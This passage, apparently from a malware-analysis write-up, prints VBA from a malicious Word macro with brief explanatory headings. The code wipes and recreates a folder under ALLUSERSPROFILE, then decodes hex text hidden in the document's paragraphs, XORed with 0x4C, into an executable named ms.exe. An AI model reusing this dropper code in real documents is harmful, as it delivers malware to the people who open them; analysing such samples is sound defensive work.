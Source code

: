 ``` VBA
  i = lQuad And 65280
  bOut(var_A + 1) = i \ 256
  bOut(var_A + 2) = lQuad And 255
  var_A = var_A + 3
 Next var_B
 sOut = StrConv(bOut, vbUnicode)
 If iPad Then sOut = Left$(sOut, Len(sOut) - iPad)
 Decrypt = sOut
End Function
```

<h6>The next function is for delete the existing content.</h6>

``` VBA
Public Sub Wipedir(path As String)
    Dim ScriptingObj
    Set ScriptingObj = CreateObject("Scripting.FileSystemObject")
    If ScriptingObj.folderexists(path) Then
        ScriptingObj.deletefolder path
    Else
        End
    End If
End Sub
```

<h6>The last functions are the main function and that allow to execute the macro. This xor the content of the data by 76 (0x4C), write in on the all users location and execute the loader.</h6>

``` VBA
Sub RemoveParagraph()
 Dim j As Integer
 Dim Name_Payload As String
 Dim Path As String
 Dim FreeFileSlot As Integer
 Dim para As Paragraph
 Dim i As Long
 Dim data_para As String
 Dim Byte_payload As Byte
 Dim Unknown_Ref As String
 Unknown_Ref = "Startincex"
 Path = Environ("ALLUSERSPROFILE") + "\Memsys"
 If Len(dir(Path, vbDirectory)) = 0 Then
  MkDir (Decrypt(Encode64(Path)))
 Else:
  Wipedir (Path)
  MkDir (Decrypt(Encode64(Path)))
 End If
 Name_Payload = "ms.exe"
 ChDrive (Path)
 ChDir (Decrypt(Encode64(Path)))
 FreeFileSlot = FreeFile()
 Open Name_Payload For Binary As FreeFileSlot
 j = 0
 For Each para In ActiveDocument.Paragraphs
  DoEvents
   data_para = para.Range.Text
   i = 1
   j = j + 1
  If j >= 24 Then
   While (i < Len(data_para))
 Byte_payload = "&H" & Mid(data_para, i, 2)
 Byte_payload = Byte_payload Xor &H4C ' Xor 76
 Put #FreeFileSlot, , Byte_payload
 i = i + 2
   Wend
```